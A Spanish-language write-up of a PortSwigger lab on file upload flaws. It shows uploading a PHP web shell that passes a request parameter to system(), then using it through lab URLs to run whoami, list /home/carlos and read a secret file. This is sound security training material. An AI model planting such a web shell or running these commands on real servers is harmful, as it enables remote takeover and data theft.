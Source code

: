 ```yaml
---
title: Remote code execution via web shell upload
description: Laboratorio de Portswigger sobre File Upload Vulnerabilities
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload Vulnerabilities
tags:
  - Portswigger Labs
  - File Upload Vulnerabilities
  - Remote code execution via web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que no realiza `ninguna validación` en los `archivos` que los usuarios suben antes de almacenarlos en el `sistema` de `archivos` del `servidor`. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego `enviar` este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo subimos

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_5.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_6.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un archivo llamado `secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_7.png)

`Leemos` la `información` de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_8.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_9.png)
